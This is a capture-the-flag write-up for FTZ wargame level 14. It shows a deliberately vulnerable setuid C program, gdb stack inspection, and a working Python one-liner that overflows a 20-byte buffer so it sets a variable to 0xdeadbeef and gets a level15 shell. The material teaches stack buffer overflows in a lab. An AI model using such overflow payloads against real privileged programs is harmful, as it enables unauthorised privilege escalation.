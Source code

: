 # Level14

## This level's goal
- routine

***

```
[level14@ftz level14]$ ls -l
-rwsr-x---    1 level15  level14     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level14       346 Dec 10  2002 hint

[level14@ftz level14]$ cat hint 

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
(After level14, brought just main source's problem.)
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 최고의 효과를 가져다줍니다.
(those problems are the best effect for learning formoat strings and buffer overflow)

#include <stdio.h>
#include <unistd.h>

main()
{ 
  int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}

[level14@ftz level14]$ gdb -q attackme
(gdb) disass main
0x08048493 <main+3>:    sub    $0x38,%esp
0x080484ad <main+29>:   cmpl   $0xdeadbeef,0xfffffff0(%ebp)

(gdb) break *0x080484ad
(gdb) run
Starting program: /home/level14/tmp/attackme
AAAA

(gdb) x/16x $esp
0xbfffe430:     0x41414141      0x4213000a      0xbfffe458      0x08048471
0xbfffe440:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe450:     0x08048308      0x42130a14      0xbfffe468      0x0804831e
0xbfffe460:     0x4200af84      0x42130a14      0xbfffe488      0x42015574
```

0x38 means 56 bytes, and I need to get more information of memory size.

```
[level14@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <unistd.h>

int main()
{
        int crap;
        int check;
        char buf[20];

        fgets(buf,45,stdin);
        if(check == 0xdeadbeef)
        {
                setreuid(3095,3095);
                system("/bin/sh");
        }
        printf("Input is : %s\n &buf : %p\n &check: %p\n &crap : %p\n", buf, buf, &check, &crap);
}

[level14@ftz tmp]$ gcc distance.c -o distance
[level14@ftz tmp]$ ./distance
AAAA
Input is : AAAA

&buf :   0xbffff8a0
&check:  0xbffff8c8
&crap :  0xbffff8cc
```

As above, I can understand the memory size.

Between buff and check : 0xbffff8c8 - 0xbffff8a0 = 0x00000028 (40 bytes)   
Between chek and crap  : 0xbffff8cc - 0xbffff8c8 = 0x00000004 (4bytes)

char buf(20 bytes) + dummy(20bytes) + check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
int check;
	if (check==0xdeadbeef)
	{
	     setreuid(3095,3095);
	     system("/bin/sh");
	}
```

In the hint, you need to input 0xdeadbeef in the int check, then you will get sh.

```
[level14@ftz level14]$ (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

id
uid=3095(level15) gid=3094(level14) groups=3094(level14)

my-pass
Level15 Password is "guess what".
```
